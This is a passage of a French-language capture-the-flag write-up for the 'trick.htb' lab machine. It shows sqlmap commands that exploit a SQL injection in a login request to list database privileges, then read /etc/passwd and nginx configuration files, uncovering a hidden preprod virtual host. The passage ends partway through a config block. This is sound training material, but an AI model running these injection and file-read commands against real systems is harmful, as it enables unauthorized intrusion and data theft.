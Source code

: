 ```bash
ajax.php
db_connect.php
```

On n’arrive pas à y accéder en direct alors on essaye avec burp. Rien non plus.

On essaye quand même de récupérer des infos avec cette injection puisque l’on a pas réussi à lire les fichiers:

```bash
sqlmap -r login.req --current-user
remo@localhost
sqlmap -r login.req --is-dba
current user is DBA: False
sqlmap -r login.req --passwords
[ERROR] unable to retrieve the password hashes for the database users
sqlmap -r login.req --all
[INFO] retrieved: FILE
database management system users privileges:
[*] %remo% [1]:
    privilege: FILE
```

On a le privilège de consulter des fichiers donc on va essayer d’extraire /etc/passwd par exemple:

```bash
sqlmap -r login.req --file-read /etc/passwd --batch --level 5 --risk 3 --technique BEU
```

Les risques et la technique sont là pour accélérer le processus sinon c’est très lent

On sait que le serveur tourne sous nginx, la localisation par défaut du fichier de config est /etc/nginx/nginx.conf

```bash
sqlmap -r login.req --file-read /etc/nginx/nginx.conf --batch --level 5 --risk 3 --technique BEU
```

Le fichier contient cette section:

```bash
include /etc/nginx/conf.d/*.conf;
include /etc/nginx/sites-enabled/*;
```

On essaye donc de récupérer dans le include:

```bash
sqlmap -r login.req --file-read /etc/nginx/sites-enabled/* --batch --level 5 --risk 3 --technique BEU
```

Et le fichier récupéré contient ceci en plus des deux serveurs déjà connus:

```bash
server {
        listen 80;
        listen [::]:80;

        server_name preprod-marketing.trick.htb;

        root /var/www/market;
        index index.php;

        location / {
                try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
```